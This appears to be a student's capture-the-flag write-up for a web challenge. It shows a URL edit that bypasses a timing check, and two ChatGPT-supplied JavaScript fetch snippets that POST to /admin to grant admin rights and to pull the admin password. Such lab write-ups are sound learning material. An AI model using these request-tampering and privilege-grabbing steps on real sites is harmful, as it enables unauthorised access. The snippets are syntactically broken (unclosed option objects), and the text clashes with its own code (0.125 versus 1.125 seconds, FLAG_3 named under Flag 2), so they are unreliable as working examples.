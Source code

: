# Hash-Brown Solution

Date: October 6, 2025

### Steps

#### Flag 1

- Clicked on the Reserve Button
- Solved the Math Prompt and Got the Pop Up
- With the Given server.js, I Found This Line of Code
    - `if (time > 0.125) {`
    - So, the Math Problem Need to be Solved Under 1.125 Seconds
- Inspected the Site and Went to the Network Tab
- Header -> General -> Request URL
- Copied the Request URL and Pasted into a New Tab
- Edit the URL to: https://cheap-sites.ctf-league.damsec.org/reserve?time=0.1&room=101
    - time is set to 0.1
- Got the Key: `osu{fa5t3r_th4n_ai}`

#### Flag 2

- Got Flag 2 With Help of Using ChatGPT. Gave ChatGPT the Context of the CTF Activity and Code That Was Given

```
(async () => {
    const body = { action: 'grantAdmin', user: 'attacker', env: 'FLAG_3' };
    const r = await fetch('/admin', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(body)
    );
  console.log(await r.text());
})();
```

#### Flag 3

- Similarly With Flag 2, I Had Asked ChatGPT to Find Flag 3 For Me

```
(async () => {
    const body = { action: 'getAdminPassword', type: 'email' };
    const r = await fetch('/admin', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(body)
    );
    console.log(await r.text());
})();
```